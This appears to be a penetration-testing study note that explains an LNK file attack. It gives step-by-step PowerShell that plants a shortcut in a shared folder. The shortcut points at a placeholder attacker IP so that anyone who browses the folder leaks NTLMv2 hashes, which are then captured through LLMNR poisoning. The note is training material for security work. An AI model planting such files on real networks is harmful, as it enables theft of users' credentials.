```yaml
---
tags:
  - PEH
---
```

## Definition
Placing a malicious file in a shared folder.
## Executing LNK File Attacks
1. From the victim's computer, navigate to a shared folder
2. Paste the following code line by line **from a privileged PowerShell**
```bash
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\<attacker's-ip-address>\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```
3. Run [[LLMNR Poisoning]] attack and wait for captured NTLMv2 hashes